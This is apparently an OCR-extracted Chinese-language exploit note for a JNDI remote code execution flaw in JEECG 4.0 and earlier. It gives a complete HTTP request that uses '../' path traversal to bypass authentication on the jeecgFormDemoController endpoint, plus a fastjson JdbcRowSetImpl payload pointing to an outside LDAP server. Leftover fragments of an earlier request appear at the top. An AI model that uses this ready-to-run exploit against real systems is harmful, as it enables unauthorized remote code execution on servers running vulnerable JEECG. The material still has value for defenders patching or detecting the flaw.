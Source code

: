 Connection: close  
  
Accept-Encoding: gzip  
## Jeecg-jeecgFormDemoController存在JNDI代码执行漏洞  
  
JEECG 4.0 及之前版本中，由于 /api 接口鉴权时未过滤路径遍历，攻击 者可构造包含 ../ 的 url 绕过鉴权。 因为依赖 1.2.31 版本的 fastjson， 该版本存在反序列化漏洞。攻击者可对  
  
/api/../jeecgFormDemoController.do?interfaceTest 接口进行 jndi 注入攻 击实现远程代码执行。  
  
  
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1  
  
Host:   
  
Pragma: no-cache  
  
Cache-Control: no-cache  
  
Upgrade-Insecure-Requests: 1  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36  
  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
  
Accept-Encoding: gzip, deflate, br  
  
cmd: whoami  
  
Accept-Language: zh-CN,zh;q=0.9  
  
Connection: close  
  
Content-Type: application/x-www-form-urlencoded  
  
Content-Length: 77  
  
serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET  
  
创建如下远程文件，其内容为fastjson代码执行的payload  
  
{  
  
"a":{  
  
"@type":"java.lang.Class",  
  
"val":"com.sun.rowset.JdbcRowSetImpl"  
  
},  
  
"b":{  
  
"@type":"com.sun.rowset.JdbcRowSetImpl",  
  
"dataSourceName":"ldap://10.66.64.89:1389/8orsiq",  
  
"autoCommit":true  
  
}  
  